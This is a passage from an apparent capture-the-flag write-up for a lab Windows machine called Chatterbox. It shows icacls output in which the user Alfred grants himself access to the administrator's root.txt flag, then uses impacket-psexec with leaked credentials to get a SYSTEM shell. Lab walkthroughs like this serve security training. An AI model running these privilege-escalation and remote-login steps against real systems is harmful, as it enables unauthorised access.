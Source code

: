 ```console
c:\Users>icacls .\*
icacls .\*
.\Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                CHATTERBOX\Administrator:(OI)(CI)(F)
                BUILTIN\Administrators:(OI)(CI)(F)
                CHATTERBOX\Alfred:(OI)(CI)(F)

.\Alfred NT AUTHORITY\SYSTEM:(OI)(CI)(F)
         BUILTIN\Administrators:(OI)(CI)(F)
         CHATTERBOX\Alfred:(OI)(CI)(F)
         
c:\Users\Administrator>icacls .\*
.\Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          CHATTERBOX\Administrator:(I)(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(F)
          CHATTERBOX\Alfred:(I)(OI)(CI)(F) -> set root.txt with (F)
          
c:\Users\Administrator\Desktop>icacls .\*
icacls .\*
.\desktop.ini NT AUTHORITY\SYSTEM:(I)(F)
              CHATTERBOX\Administrator:(I)(F)
              BUILTIN\Administrators:(I)(F)
              CHATTERBOX\Alfred:(I)(F)

.\root.txt CHATTERBOX\Administrator:(F)


c:\Users\Administrator\Desktop>icacls root.txt /grant CHATTERBOX\Alfred:(F)
icacls root.txt /grant CHATTERBOX\Alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
85c70eaf47...e1e817a2d9e
```

### Leakage Credential

Methods:

1. Use `psexec` to login:

```console
impacket-psexec administrator@10.129.91.236 [x]
impacket-psexec alfred@10.129.91.236 [yes]
```

```console
└─╼$ impacket-psexec administrator@10.129.91.236
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.91.236.....
[*] Found writable share ADMIN$
[*] Uploading file EeTMwvMu.exe
[*] Opening SVCManager on 10.129.91.236.....
[*] Creating service OhVH on 10.129.91.236.....
[*] Starting service OhVH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```